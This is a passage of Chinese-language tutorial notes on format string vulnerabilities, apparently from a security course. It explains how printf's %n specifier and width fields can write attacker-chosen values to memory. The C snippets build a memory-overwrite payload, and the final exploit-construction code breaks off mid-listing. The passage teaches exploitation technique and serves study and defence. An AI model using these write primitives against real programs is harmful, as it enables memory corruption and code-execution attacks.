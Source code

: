 === "覆写内存"

	* 格式化符`%n`：到`%n`位置已经输出的字符总数

        ```c hl_lines="2-3"
		int i;
		printf("hello%n\n",(int *)&i); //(1)!
		printf("\xdc\xf5\x42\x01%08x.%08x.%08x%n",1,2,3); //(2)!
		```

        1. 在此之后，i = `5`，在 `%n` 之前我们已经写入了 5 个字符（`"hello"`）。
        2. 在此之后，`[0x0142f5dc]=28(8x3+4)`

    * 格式化符`%u`：控制写入的字符个数（“宽度”）
		- 每一个格式字符串都耗用两个参数：
			1. 转换指示符%u所使用的整数值
			2. 输出的字符个数

        ```c hl_lines="2-3"
		int i;
		printf("%10u%n",1,&i); //(1)!
		printf("%100u%n",1,&i); //(2)!
		```

        1. i = `10`
        2. i = `100`

	* 写一个地址

		- 大多数CISC中：写入四个字节 → 递增地址 → 再写入四个字节 ...

            ```c
			printf("%16u%n%16u%n%32u%n%64u%n", 1, (int *) &foo[0], 1, (int *) &foo[1], 1, (int *) &foo[2], 1, (int *) &foo[3]);
			//计数器没有被重置，所以第一个%16u%n写入16，第二个%16u%n写32字节，以此类推
			//或者...
			printf("%16u%n",1,&foo[0]);
			printf("%32u%n",1,&foo[1]);
			printf("%64u%n",1,&foo[2]);
			printf("%128u%n",1,&foo[3]);
			```

			* 也可以在地址递减时，从高位内存写到低位内存
		- 利用代码

            ```c linenums="1" hl_lines="12 21 30 39"
			static unsigned int already_written; //(1)!
			static unsigned int width_field; //(2)!
			static unsigned int write_byte; //(3)!
			static char buffer[256];
			already_written = 506;

			// first byte
			write_byte = 0x3C8;
			already_written %= 0x100;
			width_field = (write_byte - already_written) % 0x100;
			if (width_field < 10) width_field += 0x100;
			sprintf(buffer, "%%%du%%n", width_field);
			strcat(format, buffer);
